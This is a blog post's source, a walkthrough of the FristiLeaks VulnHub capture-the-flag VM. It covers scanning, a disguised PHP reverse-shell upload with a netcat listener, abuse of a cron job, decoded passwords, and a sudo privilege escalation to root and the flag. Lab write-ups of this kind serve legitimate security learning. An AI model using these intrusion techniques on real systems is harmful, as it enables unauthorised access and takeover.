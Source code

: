 ```yaml
---
layout: post
title:  "vulnhub fristileaks vm"
date:   2016-05-26 00:00:10 +0000
categories: vulnhub
---
```

<p>Fun VM and did it on time! <a href="https://www.vulnhub.com/entry/fristileaks-13,133/">Fristileaks</a>
<p>So, the usual stuff:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p> My target is 192.168.1.90 .
{% highlight bash %}
sudo nmap -O -sT 192.168.1.90
{% endhighlight %}
<pre>
Starting Nmap 6.47 ( http://nmap.org ) at 2016-06-01 22:16 WEST
Nmap scan report for 192.168.1.90
Host is up (0.00052s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:A5:A6:76 (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
</pre>
<p> Found a port 80 open. Opened it in firefox and simple page with a image.
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404   http://192.168.1.90/FUZZ
{% endhighlight %}
<p>Only found one dir, "images".
<p>In that dir, there was an image http://192.168.1.90/images/3037440.jpg saying "this is not the url you're looking for" ... so what is the url ? Maybe hidden in the image as metadata?
{% highlight bash %}
exiftool 3037440.jpg
{% endhighlight %}
<p>Nope.
<p>After a while ... a long while, trying to think how to find the correct url i fired nmap and nikto, maybe they could help me.
{% highlight bash %}
sudo nmap -A 192.168.1.90
{% endhighlight %}
<p>Found some Paths! Like /cola /sisi /beer ... nothing really. Neither one was helping showing the same image grrr...
{% highlight bash %}
./nikto.pl -mutate 1 -h 192.168.1.90
./nikto.pl -mutate 1,2,3,4,5,6 -h 192.168.1.90
{% endhighlight %}
<p>A big "nope". After another longgg while it hit me!! "/cola", "/beer" and the "Keep calm and drink fristi"!DUH! So, http://192.168.1.90/fristi/
<p> A login-password form finally and an image! I did a view source and found a comment made by the programmer called eezeepz  and a meta tag. I first pointed at the meta tag saying:
<pre>
super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it."
</pre>
<p>Scrolling down ther was some base64 code commented. Well i tried to insert that code in the image binary and it returned an image saying something like "kekekekekKEKEKEKEK". "what is this?" I thought, "this can't be a password" but i tried it anyway, login: the user in the comment, password the text in the image and...
<p>Login!
<p>Now i could upload a file, the server runs php so i thought of php-reverse-shell upload... error file format not accepted. However, i knew some versions allow something like XXX.php.png and it will run the php code! I renamed it to .png and use the usual suspect for waiting a connection:
{% highlight bash %}
nc -lnvvp 12344
{% endhighlight %}
<p>Firefox pointing to http://192.168.1.90/fristi/uploads/php-reverse-shell.php.png and
<p>SHELL!
{% highlight bash %}
uname -a
{% endhighlight %}
<pre>
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
</pre>
<p>Walking down the /home got to eezeepz home dir, and it had some notes.txt on it:
<pre>
o EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
</pre>
<p>But the shell was bothering so:
{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/bash");'
{% endhighlight %}
<p>Ok, i knew i had to use this, but how ? So at my second try doing something useful i tried:
{% highlight bash %}
echo "/home/admin/chmod 777 /home/admin" >runthis
{% endhighlight %}
{% highlight bash %}
cd /home/admin
ls -la
whoisyourgodnow.txt <- fristigod is owner hmm
{% endhighlight %}
<p> Some pass. A encrypt file in python ... should i made a decrypt ?
<p>i did , and got login for admin:
<pre>
import base64,codecs,sys

#def encodeString(str):
#    base64string= base64.b64encode(str)
#    return codecs.encode(base64string[::-1], 'rot13')

#cryptoResult=encodeString(sys.argv[1])
#print cryptoResult

print "----"

def decodeString(str):
   x=codecs.decode(str[::-1],'rot13')
   return base64.b64decode(x)

a=decodeString(sys.argv[1])
print a
</pre>
<p>And password for admin is: thisisalsopw123
<p>Then tried that crypted file owned by fristigod and got another password! :) The password was LetThereBeFristi!
<p>I was feeling very smart at this moment.. i thought that the fristi<b>god</b> would have some useful files on his home... eh, I still needed root! So more exploring, now I was in fristigod home...wtf nothing. not even hidden.
<p> So i searched for files owned by the user:
<pre>
find / -user fristigod  
</pre>
<p> Something hidden in /var ... and a root executable, doCom ? tried to run obviously and:
{% highlight bash %}
Nice try, but wrong user ;)
{% endhighlight %}
<p>ehehe, fristigod can't sudo.. can admin ? noooo. Can i change permission of it like i did for home? i doubt it, but tried it: nah.
<p>After hitting my head for a while i decided to view .bash_history in /var/fristigod
{% highlight bash %}
"nothing"
"nothing"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
"nothing, wait what ?"
{% endhighlight %}
<p>Big duh! again. I tried and it needed a parameter.NO PROBLEM, take this:
{% highlight bash %}
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/sh
{% endhighlight %}
<p>ROOT!
<p>Now where is my flag!
<pre>
sh-4.1# cd /root
cd /root
sh-4.1# ls
ls
fristileaks_secrets.txt
sh-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1


sh-4.1#
</pre>
<p>WEEEEEE! Trully fun, no need for exploits just bad configurations! It was my first VM from start to end without advice, so i can say it was special :)
<p>Time to check other people solutions!
